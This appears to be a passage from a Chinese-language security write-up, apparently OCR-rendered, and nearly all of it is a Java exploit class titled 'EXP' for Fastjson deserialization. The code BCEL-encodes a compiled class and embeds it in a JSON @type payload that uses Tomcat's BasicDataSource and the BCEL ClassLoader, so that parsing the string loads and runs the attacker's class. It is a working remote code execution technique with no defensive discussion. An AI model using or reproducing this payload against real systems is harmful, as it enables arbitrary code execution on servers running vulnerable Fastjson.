 ```bash
}
```

#### EXP：

```bash
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXPFastJson\\Demo.class");
        String code = Utility.encode(bytes,true);
//        classLoader.loadClass("$$BCEL$$"+code).newInstance();


//        BasicDataSource basicDataSource = new BasicDataSource();
//        basicDataSource.setDriverClassLoader(classLoader);
//        basicDataSource.setDriverClassName("$$BCEL$$"+code);
//        basicDataSource.getConnection();

        String s = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"DriverClassName\":\"$$BCEL$$"+ code +"\",\"DriverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";

//      parseObject 是先 parse 后 toJSON，这样我们才能调用 get 方法：getConnection()
        JSON.parseObject(s);
    }

    private static byte[] convert(String filePath) throws IOException {
        File file = new File(filePath);
        // 检查文件是否存在
        if (!file.exists()) {
            throw new FileNotFoundException("文件未找到：" + filePath);
        }
        // 将文件内容读取到字节数组中
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }

            return byteOutput.toByteArray();
        }
    }
}
```
